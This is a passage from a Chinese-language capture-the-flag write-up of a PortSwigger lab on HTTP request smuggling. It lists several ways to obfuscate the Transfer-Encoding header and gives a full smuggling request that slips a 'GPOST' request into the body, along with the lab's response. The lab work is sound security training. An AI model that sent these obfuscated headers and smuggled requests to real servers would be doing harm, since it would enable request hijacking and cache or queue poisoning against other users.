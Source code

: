 ```plain
Transfer-Encoding: xchunked

Transfer-Encoding : chunked

Transfer-Encoding: chunked
Transfer-Encoding: x

Transfer-Encoding:[tab]chunked

[space]Transfer-Encoding: chunked

X: X[\n]Transfer-Encoding: chunked

Transfer-Encoding
: chunked
```

这些技术中的每一种都与 HTTP 规范有细微的不同，实现协议规范的真实世界代码很少绝对精确地遵守它并且不同的实现容忍与规范不同的变化是很常见的，根据是前端服务器还是后端服务器可以被诱导不处理混淆的传输编码报头，攻击的剩余部分将采取与 CL 相同的形式，TE 还是 TE  
靶场地址：[https://portswigger.net/web-security/request-smuggling/lab-obfuscating-te-header](https://portswigger.net/web-security/request-smuggling/lab-obfuscating-te-header)  
解题过程：  
Step 1：访问上面的靶场地址并直接点击"ACCESS THELAB"进入靶场  
[![](assets/1704418275-b10ea76e5c7589c6683bbf05a23b5a9e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240103154312-bf4f3d18-aa0b-1.png)  
Step 2：抓取数据包并构造如下请求走私的攻击请求

```plain
POST / HTTP/1.1
Host: 0a60007404aa738e80bff93900e000a1.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked
Transfer-Encoding: cow

5c
GPOST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0
```

[![](assets/1704418275-3aeedd4f1dd9a5c629354bd23f0e9637.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240103154340-d02af71c-aa0b-1.png)  
第二次请求回显结果提示——"Unrecognized method GPOST"，至于原理可以看上面，这里不再赘述，本实验就是结合上面的理论而构造的，在现实世界中可能或多或少也会有此类情况，但是少  
[![](assets/1704418275-bdca6275ec62e5878965e32004bb4883.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240103154358-dac6a130-aa0b-1.png)  
Step 3：刷新页面完成解题  
[![](assets/1704418275-0d2465a0d2c5a42e366feb97fd403df6.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240103154416-e57f44ce-aa0b-1.png)
